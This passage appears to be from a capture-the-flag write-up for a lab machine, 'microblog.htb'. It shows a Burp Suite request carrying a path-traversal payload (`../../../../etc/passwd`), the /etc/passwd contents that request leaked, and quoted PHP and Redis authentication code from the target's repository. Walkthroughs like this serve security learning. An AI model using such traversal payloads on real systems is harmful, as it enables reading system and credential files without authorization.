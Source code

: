 all files that their name is referenced is loaded and included in the page

```php
const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
```

We can use burpsuite repeater in order to replay a request with a text file to read :

`id=../../../../../../../../etc/passwd&txt=test`

![Untitled](burpsuite_test_add_text_file.png)

When reloading the page :

![Untitled](burpsuite_test_add_text_file_success.png)

We are able to read a remote file (`/etc/passwd`) :

```text
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologinsystemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologincooper:x:1000:1000::/home/cooper:/bin/bashredis:x:103:33::/var/lib/redis:/usr/sbin/nologingit:x:104:111:Git Version Control,,,:/home/git:/bin/bashmessagebus:x:105:112::/nonexistent:/usr/sbin/nologinsshd:x:106:65534::/run/sshd:/usr/sbin/nologin_laurel:x:997:997::/var/log/laurel:/bin/false
```

We can identify **cooper** user, with **redis**, and **git** users:

```python
cooper:x:1000:1000::/home/cooper:/bin/bash
redis:x:103:33::/var/lib/redis:/usr/sbin/nologin
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
```

This **redis** user is linked to data storage, and we can find information in the gitea repository :

[http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/index.php](http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/index.php)

```php
function checkAuth() {
    return(isset($_SESSION['username']));
}

function checkOwner() {
    if(checkAuth()) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
        $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
        if(in_array($subdomain, $userSites)) {
            return $_SESSION['username'];
        }
    }
    return "";
}
```
